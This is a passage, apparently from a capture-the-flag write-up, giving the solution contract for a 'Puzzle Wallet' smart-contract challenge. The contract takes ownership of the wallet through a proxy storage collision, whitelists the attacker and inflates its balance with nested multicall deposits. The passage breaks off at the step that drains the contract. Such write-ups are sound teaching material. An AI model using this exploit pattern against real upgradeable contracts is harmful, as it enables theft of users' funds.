 ## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

### Complete Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPuzzleProxy {
    function proposeNewAdmin(address _newAdmin) external;
    function admin() external view returns (address);
}

interface IPuzzleWallet {
    function owner() external view returns (address);
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract PuzzleWalletExploit {
    address public proxy;
    address public attacker;
    
    constructor(address _proxy) {
        proxy = _proxy;
        attacker = msg.sender;
    }
    
    function exploit() external payable {
        require(msg.sender == attacker, "Not the attacker");
        
        IPuzzleProxy proxyContract = IPuzzleProxy(proxy);
        IPuzzleWallet wallet = IPuzzleWallet(proxy);
        
        // Step 1: Become owner via storage collision
        proxyContract.proposeNewAdmin(attacker);
        require(wallet.owner() == attacker, "Failed to become owner");
        
        // Step 2: Whitelist ourselves
        wallet.addToWhitelist(attacker);
        
        // Step 3: Inflate balance using nested multicall
        bytes[] memory innerData = new bytes[](1);
        innerData[0] = abi.encodeWithSelector(wallet.deposit.selector);
        
        bytes[] memory outerData = new bytes[](2);
        outerData[0] = abi.encodeWithSelector(wallet.deposit.selector);
        outerData[1] = abi.encodeWithSelector(wallet.multicall.selector, innerData);
        
        wallet.multicall{value: msg.value}(outerData);
        
        // Step 4: Drain the contract
        uint256 contractBalance = address(proxy).balance;
```